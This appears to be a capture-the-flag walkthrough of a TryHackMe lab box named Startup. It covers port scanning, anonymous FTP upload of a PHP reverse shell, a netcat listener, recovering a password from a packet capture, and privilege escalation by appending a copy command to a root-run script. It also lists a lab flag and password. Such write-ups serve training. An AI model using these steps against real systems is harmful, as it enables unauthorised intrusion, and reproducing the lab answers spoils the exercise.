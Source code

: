 # [Startup](https://tryhackme.com/room/startup)

> Abuse traditional vulnerabilities via untraditional means.

## Scanning

first, we scan with nmap

```
nmap -A -T4 10.10.86.86
```

![image](https://user-images.githubusercontent.com/90561566/202391255-8dc00608-6faf-48b9-9685-4a30d1db64a7.png)

we can see 3 open ports are ftp (21), ssh (22) and http (80)

the most notable is ftp

![image](https://user-images.githubusercontent.com/90561566/202391799-6ad13366-75a7-4ae3-9cb2-f0ba4fc3ba61.png)

## FTP

```
ftp 10.10.86.86
Name (10.10.86.86:admin): anonymous
Password:
```

![image](https://user-images.githubusercontent.com/90561566/202393023-01179ee1-19c6-41de-8c15-8ecf2c31276c.png)

you maybe get an error like this

![image](https://user-images.githubusercontent.com/90561566/202394018-c2ac2dfa-adbc-4a7f-88e0-bc2badaa43b9.png)

the solution is `pass` mode on

![image](https://user-images.githubusercontent.com/90561566/202394119-34cb6715-5de9-45a8-b055-3b79cb627a68.png)

download all files to local and exit

```
get .test.log
get ftp
get important.jpg
get notice.txt
```

nothing here

![image](https://user-images.githubusercontent.com/90561566/202395916-1b4c32e9-2d9b-4ec1-a7d6-1f758dbb431c.png)

important.jpg

![image](https://user-images.githubusercontent.com/90561566/202396326-be353f36-eda8-4844-8101-532a4d1c2f16.png)

## HTTP

quick look at website

![image](https://user-images.githubusercontent.com/90561566/202397127-9841a316-e714-4bf0-81b8-a795da27cb3f.png)

nothing much here

![image](https://user-images.githubusercontent.com/90561566/202397328-5d64db2d-6ff3-48c6-a4cb-481a01c75e58.png)

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.86.86/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/202398516-22378b17-b66c-44be-8805-d112a4a1e4f3.png)

go to /files

![image](https://user-images.githubusercontent.com/90561566/202399145-c8b89bf2-d1a9-4f4a-bfb0-fd3a6410e5d6.png)

it's the interface of ftp

## Exploitation

prepare a web shell and change to your ip

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
vi reverse.php
```

let's go back to fpt and upload our shell

```
cd ftp
put reverse.php
```

![image](https://user-images.githubusercontent.com/90561566/202400688-dac15d49-fa39-445e-8be5-076656d4642c.png)

now we can see our shell here

![image](https://user-images.githubusercontent.com/90561566/202400761-176a6a53-185d-48b3-9fd8-a9359dd4cb08.png)

create listener and open file on browser

```
nc -vlnp 1234
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image](https://user-images.githubusercontent.com/90561566/202403261-dc874bcd-546b-431a-9da8-364ccfa5054a.png)

and the secret spicy soup recipe is `love`

![image](https://user-images.githubusercontent.com/90561566/202403567-a10149c0-fd42-41fa-923f-f4856d35d437.png)

let's see what in 2 suspicious folders here

![image](https://user-images.githubusercontent.com/90561566/202404109-b7fc3f73-c656-4fb9-adb5-9037b217f2b1.png)

hmm, a pcapng file, i will take it back to research

```
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```

![image](https://user-images.githubusercontent.com/90561566/202405450-17aa3512-4d2e-4c2e-90f1-f0a7f801dd0e.png)

![image](https://user-images.githubusercontent.com/90561566/202652583-89a53d9d-01f1-440f-a574-edefe8a19a67.png)

## Cracking

open captured file with wireshark

```
wireshark -r ./Downloads/suspicious.pcapng 
```

![image](https://user-images.githubusercontent.com/90561566/202406829-5de606d7-538a-43a4-9617-61d754207602.png)

our concern should be http protocol, i see someone has request a web shell in the past

![image](https://user-images.githubusercontent.com/90561566/202407904-4b2186e3-567b-48fa-bf75-39a635033ebb.png)

let's take a look at tcp traffic 4444 dump it all out to plain text

![image](https://user-images.githubusercontent.com/90561566/202653302-a4cf17c3-b7a9-4d46-8cbc-3461e8e3e445.png)

after lookup, i can see here is the password for lennie

![image](https://user-images.githubusercontent.com/90561566/202412311-520555ec-70b3-4438-8657-bacbe2c1416d.png)

or you can use `strings` if you don't familiar with wireshark

```
strings suspicious.pcapng
```

![image](https://user-images.githubusercontent.com/90561566/202652851-4eeee1dc-69fb-4cba-92f1-594b6ae0376e.png)

```
su lennie
c4ntg3t3n0ughsp1c3
```

![image](https://user-images.githubusercontent.com/90561566/202412520-ce00699b-cca7-4cd4-9f3a-74a7996e6aa5.png)

flag here

![image](https://user-images.githubusercontent.com/90561566/202412792-71e3fea3-c7e4-49ed-91fb-37422a35e690.png)

| Flag | user.txt |
| --- | --- |
| Answer | THM{03ce3d619b80ccbfb3b7fc81e46c0e79} |

## Privilege Escalation

there is a scripts folder

![image](https://user-images.githubusercontent.com/90561566/202413237-9c3ac792-01fe-41c0-9663-10a8a9b6c774.png)

this file will run with root permission which is one key of privilege

![image](https://user-images.githubusercontent.com/90561566/202413562-ffb230c2-1725-48a0-8eb2-20b79d12204e.png)

it also run a file with lennie permission

![image](https://user-images.githubusercontent.com/90561566/202415242-39b20879-3392-446a-a212-7e1e929e9b92.png)

```
echo "cp /root/* /home/lennie/*;chmod 777 /home/lennie/*" >> /etc/print.sh

```


| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
